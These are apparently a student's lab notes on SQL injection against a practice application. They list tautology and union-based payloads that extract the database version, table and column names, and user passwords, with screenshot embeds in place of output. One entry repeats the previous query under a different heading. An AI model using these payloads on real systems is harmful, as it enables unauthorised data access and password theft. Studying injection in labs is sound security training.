 
[[1. Introduction to SQL Injection]]
[[1. SQLi]]

## SQL Injection Payloads : 

- Classic SQLi Payloads : 

	- **1' OR '1'='1
	- ![[{1E9AFC5D-ABC8-46E3-AD1C-0EB7A4F1B6DF}.png]]

	- **jeremy' union select null,null,null#
	- ![[{B3F99883-71EE-4B4B-AC84-BAD85A9E26EC}.png]]

	- Once you have this : 
		- *You can use `union` to extract information from the DB.

	1. **SQL version : 
		- `jeremy' union select null,null,version()#
		- ![[{97DA6F2F-B0B2-479F-BE77-9EA653AF2F56}.png]]
	2. **Get other table names : 
		- `jeremy' union select null,null,table_name from information_schema.tables#`
		-  ![[{45A3C4FF-CA58-420E-863B-E5DB77489685}.png]]
		- ![[{73A6E7E6-0E6A-41A8-A15C-7BF55B667EC4}.png]]
	3. **Get other column names : 
		- `jeremy' union select null,null,column_name from information_schema.columns#`
		- ![[{1EA249A9-0F9F-48FA-B90D-06A9DEAF433A}.png]]
		- ![[{4938031A-1BB8-42E4-B0C6-3D1C911AA74E}.png]]
	4. **Get other schema names : 
		-  `jeremy' union select null,null,column_name from information_schema.columns#`
		- ![[{B6C0C7AC-B7A1-4482-B80E-CE013D020E82}.png]]
	5. **Other variations of Union based payloads

		- `jeremy' union select null,null,database()#.
		
		- `jeremy' union select null,null,table_name from information_schema.tables WHERE table_schema='bb-labs'#`
			- ![[{D2A8AD43-ED68-4E17-8825-39ACAF1B69C1}.png]]
	6. **Get User password or in general if u want to get information from any tables : 

		- `jeremy' union select null,null,password from injection0x01#`
		- ![[{F7E9C2EE-C0A6-4DE2-8F79-62C5241F0D7D}.png]]